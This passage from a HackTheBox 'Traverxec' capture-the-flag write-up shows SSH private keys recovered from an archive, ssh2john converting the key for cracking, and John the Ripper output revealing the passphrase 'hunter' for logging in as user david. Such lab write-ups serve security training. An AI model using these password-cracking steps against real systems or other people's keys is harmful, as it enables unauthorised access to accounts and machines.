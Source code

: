 After decompress the file, We will find private and public ssh keys. Try access the machine via SSH using David user account and the aforementioned SSH private key.

``` bash
root@kali:~/Desktop/HackTheBox/Traverxec# ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
```

A passphrase is needed to access the machine. We will try to crack it by JohnTheRipper tool. First of all, we need to convert the ssh key to a hash that the JTR tool can crack. We will use “ssh2john” script for that. To find the script’s path, run the command “locate ssh2john”.

``` bash
/usr/share/john/ssh2john.py <Private_Key> > Hash_File
```

<img src="https://raw.githubusercontent.com/00x71/00x71.github.io/master/_posts/images/Traverxec/4.png" style="display: block; margin: auto;" />

Now we will use JohnTheRipper tool to crack the converted hash.

``` bash
root@kali:~/Desktop/HackTheBox/Traverxec# john hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 1 candidate buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
hunter           (id_rsa)
Proceeding with incremental:ASCII
1g 0:00:00:05  3/3 0.1869g/s 2016Kp/s 2016Kc/s 2016KC/s mimpsox
Session aborted
```

<img src="https://raw.githubusercontent.com/00x71/00x71.github.io/master/_posts/images/Traverxec/5.png" style="display: block; margin: auto;" />
